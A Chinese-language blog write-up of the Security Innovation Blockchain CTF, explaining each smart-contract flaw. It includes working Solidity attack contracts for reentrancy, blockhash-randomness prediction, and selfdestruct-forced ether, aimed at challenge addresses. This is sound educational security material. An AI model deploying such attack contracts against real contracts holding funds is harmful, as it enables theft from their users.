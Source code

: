 ```yaml
---
title: "[OJ] Security Innovation Blockchain CTF"
date: 2019-06-07 00:00:00
disqusId: oalieno
categories:
- [security, writeups]
tags:
- ctf
- security
- writeups
- blockchain
---
```


## Donation

這題是簽到題  
就只是讓我們呼叫合約裡面的這個函式 `withdrawDonationsFromTheSuckersWhoFellForIt`  

## Lock Box

這題有個 `private` 的 `pin` 變數，但是 `private` 只是代表那個變數沒有 `getter` 函式，把合約的狀態抓下來就看光光啦  
使用 [`web3.eth.getStorageAt`](https://web3js.readthedocs.io/en/1.0/web3-eth.html#eth-getstorageat) 這個函式  
父合約的變數會在子合約的變數的前面  
所以 position 0 的位址是 `authorizedToPlay`，而 position 1 的位址就是 `pin`  
變數在 storage 裡面怎麼擺的可以參考這篇 [Understanding Ethereum Smart Contract Storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

## Piggy Bank

這題直接呼叫 `collectFunds` 就好了  
只有 `PiggyBank` 的 `collectFunds` 有 `onlyOwner`，`CharliesPiggyBank` 的 `collectFunds` 沒有 `onlyOwner`  

## SI Token Sale

這題的 `purchaseTokens` 沒有用 SafeMath，也沒有檢查 `_value` 要大於 `feeAmount`  
先轉個 `0.000001` 給合約，這樣 `0.000001 - 0.00001` 就會 underflow 變成很大的數字，就得到了超多的 token  
然後再用 `refundTokens` 就可以半價把 token 換成 ether 錢錢了

## Secure Bank

`SecureBank` 的 `withdraw` 和 `MembersBank` 的 `withdraw` 其中的 `_value` 參數形態不一樣  
他們會被看成是不一樣的函式，所以會有兩個不一樣的型態 `withdraw` 可以呼叫  
而 `MembersBank` 的 `withdraw` 沒有檢查是不是本人，所以就直接把 contract creator 的錢領走

## Lottery

這題要猜 `entropy^entropy2` 的值，猜到就可以拿走裡面的錢錢

`entropy = blockhash(block.number)`，但是我們沒辦法知道這個 block 的 blockhash，因為這個 block 還沒算完  
但這樣寫不會有錯誤，只是出來的值會是 `0`  
既然 `entropy = 0` 那就只剩 `entropy2`，而 `entropy2` 是根據 `msg.sender` 來的  
所以我們可以直接算出 `_seed` 的值  
可以直接用 [remix](https://remix.ethereum.org) 寫個簡單的 smart contract 幫我們算那個值，然後利用 `event` 來印出那個值 ( 當 print 用 )  

```solidity
pragma solidity ^0.5.9;

contract test {
    event Log(bytes32 value);
    
    function go () public {
        emit Log(keccak256(abi.encodePacked(msg.sender)));
    }
}
```

或是直接寫一個攻擊合約，去呼叫 `play` 函式  
記得要先把這個合約加到 `authorizedToPlay`，如果是 gas 不夠就調高 gas limit 吧

```solidity
pragma solidity ^0.5.9;

import "./challenge.sol";

contract hack {
    function exploit(address payable _target) public payable {
        Lottery target = Lottery(_target);

        bytes32 entropy2 = keccak256(abi.encodePacked(this));
        uint256 seeds = uint256(entropy2);

        target.play.value(msg.value)(seeds);

        msg.sender.transfer(address(this).balance);
    }
}
```

## Trust Fund

這題是經典的 reentrant attack  

```solidity
pragma solidity ^0.5.9;

contract TrustFund {
    function withdraw() external {}
}

contract hack {
    address target = 0xd297ab1c9653295BdE4f6b2e32574Ac5DD994997;
    uint count = 10;

    function () external payable {
        if (count > 0) {
            count--;
            TrustFund trust = TrustFund(target);
            trust.withdraw();
        }
    }

    function exploit () public {
        TrustFund trust = TrustFund(target);
        trust.withdraw();
    }
    
    function withdraw () public {
        msg.sender.transfer(address(this).balance);
    }
}
```

## Heads or Tails

這題跟 Lottery 很像，不過用的是上一個 block 的 blockhash  
那就寫個攻擊合約去呼叫 `play`，就可以算出一樣的 `entropy`  
給 `0.1 ether` 能賺 `0.05 ether`，所以玩個 20 次就把錢全部撈出來啦  
記得要寫 `fallback` 函式才能接錢進來呀 ( 我這裡卡超久der )

```solidity
pragma solidity ^0.5.9;

contract HeadsOrTails {
    function play(bool _heads) external payable {}
}

contract hack {
    address target = 0xf8583ccB9900615e0b8304A16539EBFD96c2B0af;

	function () external payable {}

    function exploit () public payable {
        bytes32 entropy = blockhash(block.number - 1);
        bool coinFlip = (entropy[0] & '\x01') == '\x01';

        HeadsOrTails heads = HeadsOrTails(target);

		for (uint i = 0; i < 20; i++) {
			heads.play.value(0.1 ether)(coinFlip);
		}

        msg.sender.transfer(address(this).balance);
    }
}
```

## Record Label

這題的題目很長，主要的邏輯就是你領錢的時候會被 `royalties` 抽成，`manager` 會抽成 80 趴的錢錢  
所以如果直接呼叫 `withdrawFundsAndPayRoyalties` 就可以拿到 `0.2 ether`，`royalties` 抽走 `0.8 ether`，這題就解掉了 ( 題目合約 `balance = 0` )  
不過正確的解法 ( 我全都要 ) 應該是找出 `_manager` 的地址，然後呼叫 `addRoyaltyReceiver` 把 `receiverToPercentOfProfit` 這個 mapping 中 `_manager` 的 percent 覆寫成 0  
這樣去領錢就不會被抽成了

## Slot Machine

這題的題目很短，就一個 `fallback` 函式  
但是第一行限制一次只能匯款 `1 szabo` ( `0.000001 ether` )  
目標是要讓這個合約的 balance 大於等於 `5 ether`，他就會把所有錢錢都給你  
其中一個不透過 `fallback` 給錢的方法就是用 `selfdestruct`  
`selfdestruct` 就是把合約清除掉，在被清除掉之前，這個合約可以把他的錢錢匯款給一個帳戶，而這個匯款的動作不會經過 `fallback` 函式  
寫一個攻擊合約，並給他 `5 ether`，讓他自我毀滅，並在毀滅之前把 `5 ether` 匯款給題目合約

```solidity
pragma solidity ^0.5.9;

contract hack {
    function exploit () public payable {
        selfdestruct(address(0x22f616f6b95e23efa8FBBAE44BeeC05890E12A4E));
    }
}
```

---

1. [https://f3real.github.io/tag/ethereum.html](https://f3real.github.io/tag/ethereum.html)
2. [https://xz.aliyun.com/t/2759](https://xz.aliyun.com/t/2759)
